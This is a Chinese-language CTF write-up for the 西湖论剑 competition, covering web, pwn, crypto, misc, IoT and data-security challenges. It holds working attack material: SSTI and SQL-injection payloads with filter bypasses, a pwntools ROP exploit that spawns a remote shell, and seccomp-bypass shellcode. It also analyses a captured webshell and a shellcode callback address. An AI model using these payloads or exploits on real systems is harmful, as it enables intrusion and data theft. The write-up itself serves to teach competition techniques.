# 西湖论剑wp-先知社区

> **来源**: https://xz.aliyun.com/news/16614  
> **文章ID**: 16614

---

# web

## Rank-l

打开题目环境：

发现一个输入框，看一下他是用上面语言写的



发现是python，很容易想到ssti


密码随便输，发现没有回显

但是输入其他字符会报错



确定为ssti注入

开始构造payload，

{{(lipsum|attr('**globals**')|attr('**getitem**')('os')|attr('popen')('ls..'))|attr('read')()}}



经过测试，发现过滤了/

这里使用构造器，联想到ctfshow上的题目

由于已经知道了flag的名字，直接构造出来

```
phone_number=







{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%2bchr(102)%2bchr(49)%2bchr(52)%2bchr(57)%}

```

获取flag



## sqli or not

源码：

```

var express = require('express');
var router = express.Router();
module.exports = router;

router.get('/',(req,res,next)=>{
    if(req.query.info){
        if(req.url.match(/\,/ig)){
            res.end('hacker1!');
        }
        var info = JSON.parse(req.query.info);
        if(info.username&&info.password){
            var username = info.username;
            var password = info.password;
            if(info.username.match(/\'|"|\/) || info.password.match(/\'|"|\/)){
                res.end('hacker2!');
            }
            var sql = "select * from userinfo where username = '{username}' and password = '{password}'";
            sql = sql.replace("{username}",username);
            sql = sql.replace("{password}",password);
            connection.query(sql,function (err,rs) {
            if (err) {
                res.end('error1');
            }
            else {
                if(rs.length>0){
                res.sendFile('/flag');
                }else {
                res.end('username or password error');
                }
            }
            })
        }
        else{
            res.end("please input the data");
        }
       
}
    else{
        res.end("please input the data");
    }
})
```

第一关过滤了，



我们可以使用编码绕过%2c

这里发现可以绕过去

过滤了一些字符

这里很容易想到用万能语句：'or 1=1#

但是题目过滤了单引号

翻文档可知


这样我们就可以绕过单引号闭合

payload：?info={"username":"$`or+1=1%23"%2C"password":"1111"}

成功下载flag





# pwn

## Vpwn

检测基本信息:

```
┌──(kali㉿kali)-[/mnt/hgfs/ReWork/2025xihulunjian/Vpwn]
└─$ checksec --file=./Vpwn 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      N/A     0               0               ./Vpwn
```

定义一个结构体:

```
struct StackVector {
    char padding[24];  // 填充 24 字节
    __int64 size;      // 位于偏移 24 的位置
};
```

发现push操作存在逻辑漏洞,发现size字段口译被修改

```
__int64 __fastcall push(__int64 a1, int *idx)
{
  int v2; // ecx
  __int64 result; // rax

  v2 = *idx;
  result = *(a1 + 24);
  *(a1 + 24) = result + 1;
  *(a1 + 4 * result) = v2;
  return result;
}
```

发现这个函数可以泄漏libc:

```
StackVector *__fastcall sub_1928(StackVector *a1)
{
  std::out_of_range *exception; // rbx
  StackVector *result; // rax

  if ( !a1->size )
  {
    exception = __cxa_allocate_exception(0x10uLL);
    std::out_of_range::out_of_range(exception, "StackVector is empty");
    __cxa_throw(exception, &`typeinfo for'std::out_of_range, &std::out_of_range::~out_of_range);
  }
  result = a1;
  --a1->size;
  return result;
}
```

使用脚本调用该命令,泄露出栈上数据:


动调可以发现第19和第18是libc地址!

发现我们构造的数据胡写进栈内存中, `StackVector initial_struct; // [rsp+30h] [rbp-40h] BYREF`

而且并未限制写入栈中数据的个数,存在溢出漏洞直接构造rop链调用system拿到shell!

直接再libc中寻找gadgets,b'/bin/sh'和pop rdi ret 和system,直接一把梭!

```
from pwn import *

# 加载 libc 文件
def load_libc():
    return ELF('./libc.so.6')

# 初始化目标
def init_target(is_remote=True):
    if is_remote:
        return remote('139.155.126.78', 31648)  # 远程连接
    else:
        return process('./vpwn')  # 本地测试

# 发送命令并等待提示
def send_command(target, choice):
    target.sendlineafter(b'choice', str(choice))

# 修改指定索引的值
def modify_value(target, index, value=b'1'):
    send_command(target, 1)  # 选择编辑功能
    target.recvuntil(b'edit')  # 等待编辑提示
    target.sendline(str(index).encode())  # 发送索引
    target.recvuntil(b'value')  # 等待值提示
    target.sendline(str(value).encode())  # 发送新值

# 将 64 位数据拆分为高低 32 位
def split_64bit(value, half):
    if half == 0:
        result = value & 0xFFFFFFFF  # 低 32 位
    else:
        result = (value >> 32) & 0xFFFFFFFF  # 高 32 位
    if result > 0x7FFFFFFF:  # 处理负数
        result -= 2**32
    return result

# 填充栈
def fill_stack(target, count=8, value=b'888'):
    for _ in range(count):
        send_command(target, 2)  # 选择 push 功能
        target.recvuntil(b'push')  # 等待 push 提示
        target.sendline(value)  # 发送 push 的值

# 获取栈内容
def get_stack_contents(target):
    send_command(target, 4)
    target.recvuntil(b'StackVector contents: ')  # 等待栈内容提示
    return target.recvuntil(b'
').split(b' ')  # 接收并分割栈内容

# 计算 libc 基地址
def calculate_libc_base(stack_data, libc):
    libc_address = (int(stack_data[19]) << 32) + (int(stack_data[18]) & 0xFFFFFFFF)
    return libc_address - 0x29D90  # 计算基地址

# 构造 ROP 链
def build_rop_chain(target, libc_base, libc):
    # 计算关键地址
    system_addr = libc_base + libc.symbols['system']  # system 函数地址
    bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))  # "/bin/sh" 字符串地址
    pop_rdi_addr = libc_base + 0x2A3E5  # pop rdi; ret gadget 地址
    rop_start_index = 18  # ROP 链起始索引

    # 写入 ROP 链
    modify_value(target, rop_start_index, split_64bit(pop_rdi_addr + 1, 0))  # pop rdi 高 32 位
    modify_value(target, rop_start_index + 1, split_64bit(pop_rdi_addr + 1, 1))  # pop rdi 低 32 位
    modify_value(target, rop_start_index + 2, split_64bit(pop_rdi_addr, 0))  # pop rdi 高 32 位
    modify_value(target, rop_start_index + 3, split_64bit(pop_rdi_addr, 1))  # pop rdi 低 32 位
    modify_value(target, rop_start_index + 4, split_64bit(bin_sh_addr, 0))  # "/bin/sh" 高 32 位
    modify_value(target, rop_start_index + 5, split_64bit(bin_sh_addr, 1))  # "/bin/sh" 低 32 位
    modify_value(target, rop_start_index + 6, split_64bit(system_addr, 0))  # system 高 32 位
    modify_value(target, rop_start_index + 7, split_64bit(system_addr, 1))  # system 低 32 位

# 触发漏洞并获取 shell
def exploit(target):
    send_command(target, 5)  # 触发漏洞
    target.interactive()  # 获取 shell

# 主函数
def main():
    # 初始化
    libc = load_libc()
    target = init_target(is_remote=True)  # 本地测试

    # 填充栈
    fill_stack(target)

    # 获取栈内容并计算 libc 基地址
    stack_data = get_stack_contents(target)
    libc_base = calculate_libc_base(stack_data, libc)

    # 构造 ROP 链
    build_rop_chain(target, libc_base, libc)

    # 触发漏洞并获取 shell
    exploit(target)

if __name__ == '__main__':
    main()
```

## Heaven's door

发现存在沙箱过滤了很多的指令但是少了SYS\_openat和SYS\_sendfile

```
┌──(kali㉿kali)-[/mnt/hgfs/ReWork/2025xihulunjian/pwn3]
└─$ seccomp-tools dump ./pwn 
puchid: 139520
Rasen Kaidan
Kabutomushi
Haikyo Kaido
asdasd
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x35 0x0a 0x00 0x40000000  if (A >= 0x40000000) goto 0012
 0002: 0x15 0x00 0x0a 0xffffffff  if (A != 0xffffffff) goto 0013
 0003: 0x15 0x09 0x00 0x00000001  if (A == write) goto 0013
 0004: 0x15 0x08 0x00 0x00000002  if (A == open) goto 0013
 0005: 0x15 0x07 0x00 0x00000004  if (A == stat) goto 0013
 0006: 0x15 0x06 0x00 0x00000005  if (A == fstat) goto 0013
 0007: 0x15 0x05 0x00 0x00000006  if (A == lstat) goto 0013
 0008: 0x15 0x04 0x00 0x00000007  if (A == poll) goto 0013
 0009: 0x15 0x03 0x00 0x00000008  if (A == lseek) goto 0013
 0010: 0x15 0x02 0x00 0x00000009  if (A == mmap) goto 0013
 0011: 0x15 0x01 0x00 0x0000000a  if (A == mprotect) goto 0013
 0012: 0x06 0x00 0x00 0x00000000  return KILL
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

再看看伪代码,发现是典型的orw执行,绕过沙箱即可!

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v4; // [rsp+0h] [rbp-10h]

  init(argc, argv, envp);
  v4 = fork();
  if ( v4 )
  {
    printf("puchid: %d
", v4);
    mmap(0x10000, 0x1000uLL, 7, 50, -1, 0LL);
    read(0, 0x10000, 0xC3uLL);
    if ( count_syscall_instructions(0x10000LL, 4096LL) > 2 )
      exit(-1);
    sandbox();
    MEMORY[0x10000]();//执行汇编
    return 0;
  }
  else
  {
    made_in_heaven();
    puts("The time is Accelerating");
    puts("MADE IN HEAVEN !!!!!!!!!!!!!!!!");
    return 0;
  }
}
```

直接搓出python脚本,orw读取flag:

```
from pwn import *

# 设置上下文
context(log_level='debug', arch='amd64', os='linux')

# 初始化目标
# io = process("./pwn")  # 本地测试
io = remote('139.155.126.78', 21893)  # 远程连接

# 修改后的Shellcode
pay = asm('''
    mov rax, 0x67616c662f2e  # 将字符串 "./flag" 存入 rax
    push rax                 # 将字符串压栈
    xor rdi, rdi             # rdi = 0 (AT_FDCWD)
    sub rdi, 100             # rdi = -100 (AT_FDCWD)
    mov rsi, rsp             # rsi 指向栈顶（即 "./flag" 的地址）
    xor rdx, rdx             # rdx = 0 (flags)
    xor r10, r10             # r10 = 0 (mode)
    push SYS_openat          # rax = SYS_openat
    pop rax
    syscall                  # 调用 openat

    mov rdi, 1               # rdi = 1 (stdout)
    mov rsi, rax             # rsi = 文件描述符 (openat 返回的 fd)
    xor rdx, rdx             # rdx = 0 (offset)
    mov r10, 0x100           # r10 = 0x100 (读取的字节数)
    push SYS_sendfile        # rax = SYS_sendfile (64位系统调用号)
    pop rax
    syscall                  # 调用 sendfile
''')

# 发送 payload
io.send(pay)

# 进入交互模式
io.interactive()
```

# crypto

## matrixRSA

task:

```
import random
import string
from Crypto.Util.number import *
from secret import flag
ext_len = 9*23 - len(flag)
flag += ''.join(random.choice(string.printable) for _ in range(ext_len))
def my_rsa_encrypt():
    p = getPrime(512)
    q = getPrime(512)
    n = p * q
    data = []
    for i in range(9):
        data.append(bytes_to_long(flag[23*i:23*(i+1)].encode()))
    M = Matrix(Zmod(n), [data[i:i+3] for i in range(0, len(data), 3)])
    e = 65537
    C = M**e
    print("p =", p >> 100)
    print("n =", n)
    return C
C = my_rsa_encrypt()
print("C =", C)
'''
p = 9707529668721508094878754383636813058761407528950189013789315732447048631740849315894253576415843631107370002912949379757275
n = 132298777672085547096511087266255066285502135020124093900452138262993155381766816424955849796168059204379325075568094431259877923353664926875986223020472585645919414821322880213299188157427622804140996898685564075484754918339670099806186873974594139182324884620018780943630196754736972805036038798946726414009
C = [130700952989014311434434028098810412089294728270156705618326733322297465714495704072159530618655340096705383710304658044991149662060657745933090473082775425812641300964472543605460360640675949447837208449794830578184968528547366608180085787382376536622136035364815331037493098283462540849880674541138443271941  71108771421281691064141020659106224750236412635914570166893031318860027728093402453305986361330527563506168063047627979831630830003190075818824767924892107148560048725155587353683119195901991465464478196049173060097561821877061015587704803006499153902855903286456023726638247758665778434728734461065079337757  67999998657112350704927993584783146575182096185020115836188544590466205688442741039622382576899587857972463337900200038021257164640987281308471100297698062626107380871262596623736773815445544153508352926374272336154553916204320257697068627063236060520725376727528604938949588845448940836430120015498687885615]
[ 23893343854815011808020457237095285782125931083991537368666368653089096539223297567339111502968295914745423286070638369517207554770793304994639155083818859208362057394004419565231389473766857235749279110546079776040193183912062870294579472815588333047561915280189529367474392709554971446978468118280633281993   9711323829269829751519177755915164402658693668631868499383945203627197171508441332211907278473276713066275283973856513580205808517918096017699122954464305556795300874005627001464297760413897074044080665941802588680926430030715299713241442313300920463145903399054123967914968894345491958980945927764454159601  44904507975955275578858125671789564568591470104141872573541481508697254621798834910263012676346204850278744732796211742615531019931085695420000582627144871996018850098958417750918177991375489106531511894991744745328626887250694950153424439172667977623425955725695498585224383607063387876414273539268016177401]
[ 67805732998935098446255672500407441801838056284635701147853683333480924477835278030145327818330916280792499177503535618310624546400536573924729837478349680007368781306805363621196573313903080315513952415535369016620873765493531188596985587834408434835281527678166509365418905214174034794683785063802543354572  13486048723056269216825615499052563411132892702727634833280269923882908676944418624902325737619945647093190397919828623788245644333036340084254490542292357044974139884304715033710988658109160936809398722070125690919829906642273377982021120160702344103998315875166038849942426382506293976662337161520494820727  95932690738697024519546289135992512776877884741458439242887603021792409575448192508456813215486904392440772808083658410285088451086298418303987628634150431725794904656250453314950126433260613949819432633322599879072805834951478466009343397728711205498602927752917834774516505262381463414617797291857077444676]

'''
```

这里泄漏了p的高100位 ，copper恢复即可，得到p,q

```
e = 65537
pp = 9707529668721508094878754383636813058761407528950189013789315732447048631740849315894253576415843631107370002912949379757275
n = 132298777672085547096511087266255066285502135020124093900452138262993155381766816424955849796168059204379325075568094431259877923353664926875986223020472585645919414821322880213299188157427622804140996898685564075484754918339670099806186873974594139182324884620018780943630196754736972805036038798946726414009
pp<<=100


R.<x> = PolynomialRing(Zmod(n))
f = pp + x
root= f.small_roots(X=2^100, beta=0.4)
p=pp+int(root[0])
q= n // p
```



再就是模的矩阵群，这里是三阶为p(p+1)(p−1)(p2+p+1)

```
from Crypto.Util.number import *
import gmpy2
C = [
    (130700952989014311434434028098810412089294728270156705618326733322297465714495704072159530618655340096705383710304658044991149662060657745933090473082775425812641300964472543605460360640675949447837208449794830578184968528547366608180085787382376536622136035364815331037493098283462540849880674541138443271941,
     71108771421281691064141020659106224750236412635914570166893031318860027728093402453305986361330527563506168063047627979831630830003190075818824767924892107148560048725155587353683119195901991465464478196049173060097561821877061015587704803006499153902855903286456023726638247758665778434728734461065079337757,
     67999998657112350704927993584783146575182096185020115836188544590466205688442741039622382576899587857972463337900200038021257164640987281308471100297698062626107380871262596623736773815445544153508352926374272336154553916204320257697068627063236060520725376727528604938949588845448940836430120015498687885615),
     
    (23893343854815011808020457237095285782125931083991537368666368653089096539223297567339111502968295914745423286070638369517207554770793304994639155083818859208362057394004419565231389473766857235749279110546079776040193183912062870294579472815588333047561915280189529367474392709554971446978468118280633281993,
     9711323829269829751519177755915164402658693668631868499383945203627197171508441332211907278473276713066275283973856513580205808517918096017699122954464305556795300874005627001464297760413897074044080665941802588680926430030715299713241442313300920463145903399054123967914968894345491958980945927764454159601,
     44904507975955275578858125671789564568591470104141872573541481508697254621798834910263012676346204850278744732796211742615531019931085695420000582627144871996018850098958417750918177991375489106531511894991744745328626887250694950153424439172667977623425955725695498585224383607063387876414273539268016177401),
     
    (67805732998935098446255672500407441801838056284635701147853683333480924477835278030145327818330916280792499177503535618310624546400536573924729837478349680007368781306805363621196573313903080315513952415535369016620873765493531188596985587834408434835281527678166509365418905214174034794683785063802543354572,
     13486048723056269216825615499052563411132892702727634833280269923882908676944418624902325737619945647093190397919828623788245644333036340084254490542292357044974139884304715033710988658109160936809398722070125690919829906642273377982021120160702344103998315875166038849942426382506293976662337161520494820727,
     95932690738697024519546289135992512776877884741458439242887603021792409575448192508456813215486904392440772808083658410285088451086298418303987628634150431725794904656250453314950126433260613949819432633322599879072805834951478466009343397728711205498602927752917834774516505262381463414617797291857077444676)
]
e = 65537
n = 132298777672085547096511087266255066285502135020124093900452138262993155381766816424955849796168059204379325075568094431259877923353664926875986223020472585645919414821322880213299188157427622804140996898685564075484754918339670099806186873974594139182324884620018780943630196754736972805036038798946726414009

p=12305755811288164655681709252717258015229295989302934566212712319314835335461946241491177972870130171728224502716603340551354171940107285908105124549960063
q=10750967246621849802090386055921679114516122704252330881722100331526757637044067492444912824266860574267360247681890637480406758188129451052986858429875143

order_p = p*(p-1)*(p+1)*(p^2+p+1)
order_q = q*(q-1)*(q+1)*(q^2+q+1)
order = order_p * order_q

d = gmpy2.invert(e,order)
C = Matrix(Zmod(n),C)
M = C ** d

flag = b""
for i in range(3):
    for j in range(3):
        m = int(M[i,j])
        flag += long_to_bytes(m)
print(flag)
#48ccbfd88061d7ff3d5325148ec55d11
```

# misc

## 糟糕的磁盘

file所有img文件可知是raid0，010分析发现有png

uGZ85OzT.img



Fsiq6lKn.img



使用R-STUDIO读取，发现当uGZ85OzT.img、m8X4exzG.img、Fsiq6lKn.img组合时可得到图片


剩下的再组得到



secret，结合key可联想到veracrypt，挂载



打开得到flag



flag：DASCTF{R41D\_4ND\_D15K\_M4573R}

# IOT

## blink

检测固件信息,发现路径手动查看一下:

```
┌──(kali㉿kali)-[/mnt/hgfs/ReWork/2025xihulunjian/blink]
└─$ file blink.bin 
blink.bin: ESP-IDF application image for ESP32, project name: "blink", version v5.3.2-dirty, compiled on Dec 29 2024 14:59:57, IDF version: v5.3.2-dirty, entry address: 0x40081198

┌──(kali㉿kali)-[/mnt/hgfs/ReWork/2025xihulunjian/blink]
└─$ binwalk -Me ./blink.bin

Scan Time:     2025-01-18 03:56:57
Target File:   /mnt/hgfs/ReWork/2025xihulunjian/blink/blink.bin
MD5 Checksum:  c31950914642264e7df8c15da12f3f69
Signatures:    411

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
12304         0x3010          Unix path: /dev/uart/0                                              
```

发现一个路径在其附近的字符串查看一下就可以发现一个模式电码和字符串:



电码和字符串:rtosandmorseisveryeasyhahhaha

```
.-. - --- ... / .. ... ...- . .-. -.-- . .- ... -.-- .... .- .... .... .- .... .-
```

发现他就是flag

## sharkp

打开流量包，导出HTTP对象



能发现只有三个接口，一个一个看

setConfigUpload看着很像，但是这是上传的日志文件



在setSystemAdmin里AdminID用反引号执行命令了，rce的接口是setSystemAdmin



附件给的firmware.bin没有用，在TCP的190流有一个ELF文件，原始数据导出



Ida打开能看到是shellcode



放进安恒云沙箱

可以找到回连地址

Flag{setSystemAdmin\_115.195.88.161}

# DS

## easydatalog

access.log中/upload/1.php，猜测是上马了

error.log发现有



webshell密码为1，过滤出所有相关数据

.*1**40eval**40base64**decode.*

发现有一个jpg和zip




回到error.log中，将数据提取出来，得到




java盲水印

java -jar BlindWatermark.jar decode -f Untitled1.jpg 1.jpg

得到



pass:dataPersonPass123987



30601319731003117X\_79159498824

## DSASignatureData

处理流量，提取userid与name、idcard、phone

```
import pyshark
import json
import re
import csv

def extract_http_info_to_csv(pcap_file, csv_file):
    # 打开PCAP文件
    cap = pyshark.FileCapture(pcap_file, display_filter='http.request')

    # 打开CSV文件以写入
    with open(csv_file, mode='w', newline='', encoding='utf-8') as file:
        writer = csv.writer(file)
        # 写入CSV的列名
        writer.writerow(['userid', 'name', 'idcard', 'phone'])

        for packet in cap:
            try:
                # 提取HTTP请求的URL和正文
                http_layer = packet.http
                request_uri = http_layer.request_uri
                if 'userid=' in request_uri:
                    userid_match = re.search(r'userid=(\d+)', request_uri)
                    userid = userid_match.group(1) if userid_match else None
                else:
                    continue

                # 提取HTTP请求体
                if hasattr(http_layer, 'file_data'):
                    body = bytes.fromhex(http_layer.file_data.replace(':', '')).decode('utf-8')
                    json_data = json.loads(body)

                    # 提取name, idcard和phone
                    name = json_data.get("name")
                    idcard = json_data.get("idcard")
                    phone = json_data.get("phone")

                    # 写入CSV文件
                    writer.writerow([userid, name, idcard, phone])

            except Exception as e:
                print(f"Error processing packet: {e}")

    cap.close()
    print(f"Data has been written to {csv_file}")

# 使用示例
pcap_file_path = 'http.pcapng'  # 替换为你的PCAP文件路径
csv_file_path = 'output.csv'       # 指定输出CSV文件路径
extract_http_info_to_csv(pcap_file_path, csv_file_path)
```

已知签名算法采用 DSA，哈希算法采用 SHA256，加密数据并与data-sign.csv中数据进行比较，将被篡改过的个人信息数据并保存到新的csv文件中

```
import base64
import csv
import os
from Crypto.PublicKey import DSA
from Crypto.Signature import DSS
from Crypto.Hash import SHA256

def load_public_key(file_path):
    with open(file_path, 'rb') as f:
        public_key = DSA.import_key(f.read())
    return public_key

def verify_signature(public_key, message, signature):
    hash_obj = SHA256.new(message.encode('utf-8'))
    verifier = DSS.new(public_key, 'fips-186-3')
    try:
        verifier.verify(hash_obj, signature)
        return True
    except ValueError:
        return False

def load_signatures(csv_file_path):
    signatures = {}
    with open(csv_file_path, newline='') as csvfile:
        reader = csv.reader(csvfile)
        next(reader)
        for row in reader:
            username, name_signature, idcard_signature, phone_signature = row
            signatures[username] = {
                'name_signature': name_signature,
                'idcard_signature': idcard_signature,
                'phone_signature': phone_signature
            }
    return signatures

def write_to_csv(data, output_file):
    with open(output_file, mode='a', newline='', encoding='utf-8') as file:
        writer = csv.writer(file)
        writer.writerow(data)

csv_file_path = 'data-sign.csv'
signatures = load_signatures(csv_file_path)
csv_file_path2 = 'data.csv'
public_key_dir = './public'
csv_file_path3 = '1.csv'

with open(csv_file_path2, newline='', encoding='utf-8') as csvfile:
    reader = csv.reader(csvfile)
    next(reader)
    for row in reader:
        userid, name, idcard, phone = row
        userid_padded = userid.zfill(4)
        public_key_file_path = os.path.join(public_key_dir, f"public-{userid_padded}.pem")

        try:
            public_key = load_public_key(public_key_file_path)
        except FileNotFoundError:
            print(f"Public key file not found for user {userid_padded}")
            continue

        messages = {
            'name': name,
            'idcard': idcard,
            'phone': phone
        }
        flag = 0
        for key, message in messages.items():
            try:
                signature = signatures[userid][f'{key}_signature']
                is_valid = verify_signature(public_key, message, base64.b64decode(signature))
                if not is_valid:
                    flag = 1
            except KeyError:
                print(f"Signature for {key} not found for user {userid}")
                flag = 1

        if flag:
            write_to_csv([userid, name, idcard, phone], csv_file_path3)
```

得到



再将数据根据userid排序，并删除重复项

```
import pandas as pd

data = pd.read_csv('1.csv', header=None)
data = data.drop_duplicates()
data = data.sort_values(by=data.columns[0])
data.to_csv('2.csv', index=False)
```

提交


## easyrawencode

rsa目录下存在



encrypted\_data.zip、hack.py、private.pem，提取出来

```
import os
import hashlib
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

hackkey = os.getenv('hackkey')
if not hackkey:
    raise ValueError("Environment variable 'hackkey' is not set")

with open('private.pem', 'r') as f:
    private_key = RSA.import_key(f.read())
public_key = private_key.publickey().export_key()

aes_key = hashlib.sha256(hackkey.encode()).digest()

with open('data.csv', 'rb') as f:
    data = f.read()

cipher_aes = AES.new(aes_key, AES.MODE_EAX)
ciphertext, tag = cipher_aes.encrypt_and_digest(data)
cipher_rsa = PKCS1_OAEP.new(RSA.import_key(public_key))
enc_aes_key = cipher_rsa.encrypt(aes_key)

with open('encrypted_data.bin', 'wb') as f:
    f.write(ciphertext)
    
print(enc_aes_key.hex())
print(cipher_aes.nonce.hex())
print(tag.hex())
```

读取了环境变量中的hackkey的值作为aes的key



4etz0hHbU3TgKqduFL

vol -f easyrawencode.raw --profile=Win7SP1x64 console


```
import os
import hashlib
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

hackkey = '4etz0hHbU3TgKqduFL'  # 提供的 hackkey

# 读取私钥
with open("C:\Users\等风来\Desktop\private.pem", 'r') as f:
    private_key = RSA.import_key(f.read())
print("Private key loaded successfully.")

# 获取加密的 AES 密钥（来自公钥加密）
enc_aes_key_hex = "20d96098010eb9b326be6c46e1ce1ca679e29f1d65dec055cf8c46c6436c3356af2dc312b2d35466308b9fff0dd427b44a37e34fca12992e45db2ddd81884bd8eb5bccd3c595e8a9a352bd61322e1d52329d6c8638bbfce65edffbc4d3a5759e88c0f90e31ce518837552a3a09d8e7e3c374f3857bfe501cce2066fb233ff1f5faac18d73c3b665a54e8c55574f16bf4678c5ce835d2a14a65f8c1cec012435a8c06314cbe727a3a9b6060dfd6cdb850073423841178f6f409bb7ce8d4863c6f58855954d34af3d2964c488c9057c8c5072a54e43f1f8039d32409eb1ff3abca41c0b302788c4c56c1a4be4506ff5b8aff0242e21c0ee7ffee2da20ed9434334"
nonce_hex = "d919c229aab6535efa09a52c589c8f47"
tag_hex = "5b204675b1b173c32c04b0b8a100ee29"

# 将十六进制字符串转换为字节
enc_aes_key = bytes.fromhex(enc_aes_key_hex)
nonce = bytes.fromhex(nonce_hex)
tag = bytes.fromhex(tag_hex)

# 解密 AES 密钥
cipher_rsa = PKCS1_OAEP.new(private_key)
try:
    aes_key = cipher_rsa.decrypt(enc_aes_key)
    print("AES key decrypted successfully.")
except Exception as e:
    print(f"Error decrypting AES key: {e}")

# 使用 AES 密钥和 nonce 解密数据
cipher_aes = AES.new(aes_key, AES.MODE_EAX, nonce=nonce)
with open("C:\Users\等风来\Desktop\encrypted_data.bin", 'rb') as f:
    ciphertext = f.read()

# 解密数据并验证标签
try:
    data = cipher_aes.decrypt_and_verify(ciphertext, tag)
    # 将解密后的数据保存为 CSV 文件
    with open("decrypted_data.csv", 'wb') as f:
        f.write(data)
    print("Data decrypted successfully and saved as 'decrypted_data.csv'.")
except ValueError:
    print("Decryption failed or data integrity compromised!")
except Exception as e:
    print(f"Error during decryption or saving file: {e}")
```

得到csv

然后rc4解密性签名，使用密码列解密

```
import pandas as pd
from Crypto.Cipher import ARC4
from base64 import b64decode

def rc4_decrypt(key, data):
    """RC4 解密函数"""
    cipher = ARC4.new(key)
    return cipher.decrypt(data)

def decrypt_signature(row):
    """解密个性签名"""
    try:
        # 从 base64 解码密文签名
        encrypted_signature = b64decode(row['个性签名(加密版)'])
        # 获取密码并进行解密
        password = row['密码'].encode()
        decrypted_signature = rc4_decrypt(password, encrypted_signature)
        return decrypted_signature.decode('utf-8')  # 解密并转换为字符串
    except Exception as e:
        # 如果解密失败，输出错误信息并返回空字符串
        print(f"Error decrypting for user {row['用户名']}: {e}")
        return ''

# 读取 CSV 文件
df = pd.read_csv("decrypted_data.csv")

# 应用 decrypt_signature 函数到每一行，创建新的列
df['个性签名'] = df.apply(decrypt_signature, axis=1)

# 将结果保存到新的 CSV 文件
df.to_csv("data2.csv", index=False)

print("Decryption complete and results saved to 'data2.csv'.")
```

搜索解密出的csv,得到flag: DASCTF{fc450e2a9062a39049d501cb5ce287d0}
